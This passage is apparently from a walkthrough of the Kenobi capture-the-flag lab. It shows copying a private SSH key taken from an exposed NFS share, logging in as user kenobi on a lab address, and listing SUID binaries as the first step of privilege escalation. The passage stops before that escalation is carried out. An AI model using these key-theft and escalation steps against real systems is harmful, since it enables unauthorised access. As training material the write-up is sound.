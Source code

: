 And copy the id\_rsa file from ‘/mnt/kenobiNFS/tmp/id\_rsa’ and give ‘id\_rsa’ file read and write permissions  
And finally make an ssh connection and find the user flag.

```
┌──(kali㉿kali)-\[~\]  
└─$ cp /mnt/kenobiNFS/tmp/id\_rsa .                                                                                                                                                                                
                                                                                                                                                                                                                      
┌──(kali㉿kali)-\[~\]  
└─$ sudo chmod 600 id\_rsa                                                                                                                                                                                        
                                                                                                                                                                                                                      
┌──(kali㉿kali)-\[~\]  
└─$ sudo ssh -i id\_rsa kenobi@10.10.49.245                                                                                                                                                                        
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86\_64)\* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)  
 \* Management:     [https://landscape.canonical.com](https://landscape.canonical.com)  
 \* Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)103 packages can be updated.  
65 updates are security updates.Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147  
To run a command as administrator (user "root"), use "sudo <command>".  
See "man sudo\_root" for details.kenobi@kenobi:~$ ls  
share  user.txt
```

Privilege Escalation with Path Variable Manipulation
====================================================

👀 Read the room notes

First we need to look for files that have SUID bit, We can do it running

find / -perm -u=s -type f 2>/dev/null

```
kenobi@kenobi:/$ find / -perm -u=s -type f 2>/dev/null  
/sbin/mount.nfs  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/snapd/snap-confine  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/openssh/ssh-keysign  
/usr/lib/x86\_64-linux-gnu/lxc/lxc-user-nic  
/usr/bin/chfn  
/usr/bin/newgidmap  
/usr/bin/pkexec  
/usr/bin/passwd  
/usr/bin/newuidmap  
/usr/bin/gpasswd  
/usr/bin/menu  
/usr/bin/sudo  
/usr/bin/chsh  
/usr/bin/at  
/usr/bin/newgrp  
/bin/umount  
/bin/fusermount  
/bin/mount  
/bin/ping  
/bin/su  
/bin/ping6
```
